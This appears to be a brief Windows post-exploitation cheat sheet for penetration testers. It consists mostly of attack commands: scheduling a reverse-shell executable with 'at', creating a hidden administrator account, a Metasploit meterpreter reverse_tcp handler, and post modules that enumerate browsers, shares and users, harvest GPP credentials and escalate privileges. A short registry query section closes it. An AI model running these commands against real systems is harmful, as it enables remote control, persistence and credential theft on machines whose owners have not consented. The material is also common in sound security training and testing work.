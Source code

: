 ## at Command and Sticky Keys
```
at 10:23 C:\reverse_shell.exe
at /delete

net user /add <username> <password>

net localgroup administrator /add <username>
```

## Metasploit Modules
```
# Multi Handler
use exploit/multi/handler

# Payload
set payload windows/meterpreter/reverse_tcp

# Check if machine is a VM ?
# checkvm
use post/windows/gather/checkvm

# Enumerate Applications
use post/windows/gather/enum_applications

# Enumerate Internet Explorer
use post/windows/gather/enum_ie

# Enumerate Chrome
search enum_chrome

# Enumerate SNMP
use post/windows/gather/enum_snmp

# Enumerate Shares
use post/windows/gather/enum_shares

# Enumerate Logged on Users
use post/windows/gather/enum_logged_on_users

# Enumerate GPP
use post/windows/gather/credentials/gpp

# Enumerate Service Permissions
use exploit/windows/local/service_permissions

# Local Exploit Suggester
use post/multi/recon/local_exploit_suggester
```

## Windows Registry
```
Computer\HKEY_CLASSES_ROOT\

Computer\HKEY_CURRENT_USER\

Computer\HKEY_LOCAL_MACHINE\

Computer\HKEY_USERS\

# Query
reg query HKCU\environment /v TEMP
```